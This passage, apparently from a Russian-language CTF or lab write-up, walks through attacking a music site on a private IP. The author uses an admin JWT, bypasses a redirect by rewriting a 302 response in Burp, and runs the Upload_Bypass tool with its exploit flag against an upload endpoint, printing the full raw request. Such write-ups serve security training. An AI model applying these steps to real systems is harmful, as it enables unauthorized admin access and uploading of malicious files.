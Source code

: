 В ответ на этот запрос я получил jwt token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJlbWFpbCI6ImFkbWluQG11c2ljay5jb20iLCJpc3MiOiJsb2NhbGhvc3QiLCJhdWQiOiJsb2NhbGhvc3QiLCJpYXQiOjE3Mjc0NDYzMTUsImV4cCI6MTcyNzQ0OTkxNX0.fFS_sVBsE1Xgby-9edtjByHPkq-AAmeZ_rfV5SzIKXU

Проверим через сайт  начинку токена (site: https://jwt.io/) , увидел что токен Админский значит : ~~можем~~  нужно его куда-нибудь подставить

Берем нежно наш токен , чтобы пока несли не сломался 
и идем в 
10.124.1.241/secret


#### bypass redirect via burp (Не обязательно  )
Второй способ обойти редирект.
Перехватываем запрос к secretPanel  ; в burp -> Do intercept ->Response to this request 
Нажимаем Forward
![[Pasted image 20240926213245.png]]
Когда нам придёт ответ от сервера (Именно от сервера) 

Варианты:
1. Меняем  либо ответ с 302 на 200
   HTTP/1.0 302 Found    ->  HTTP/1.0 200
2. либо удаляем следующий заголовок  Location: /index.php

#### После обхода 
мы  получили страничку где можем загружать файлы , почему бы нам что нибудь да не загрузить?


#### Роботы на подработке 
Решил проверить эффективность следующего инструмента 
https://github.com/sAjibuu/Upload_Bypass?tab=readme-ov-file
Пример команды для перебора
> python upload_bypass.py -r test -s 'file has been uploaded' -E php -D /uploads --burp_http --exploit 

Содержимое файла test, было изменено  в зависимости от документации 
https://github.com/sAjibuu/Upload_Bypass?tab=readme-ov-file#example-2
```
POST /secret/uploadMusic.php HTTP/1.1
Host: 10.124.1.241
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------20454028017691591591771889877
Content-Length: 178827
Origin: http://10.124.1.241
DNT: 1
Connection: keep-alive
Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJlbWFpbCI6ImFkbWluQG11c2ljay5jb20iLCJpc3MiOiJsb2NhbGhvc3QiLCJhdWQiOiJsb2NhbGhvc3QiLCJpYXQiOjE3Mjc0NjA5MzcsImV4cCI6MTcyNzQ2NDUzN30.Twzf56dfM2tXd6ZDWfA35Xt_so3nXWHiZGHhBg6n9aw
Upgrade-Insecure-Requests: 1

-----------------------------20454028017691591591771889877
Content-Disposition: form-data; name="userfile"; filename="*filename*"
Content-Type: *mimetype*

*data*
-----------------------------20454028017691591591771889877
Content-Disposition: form-data; name="upload_btn"

Upload
-----------------------------20454028017691591591771889877--
```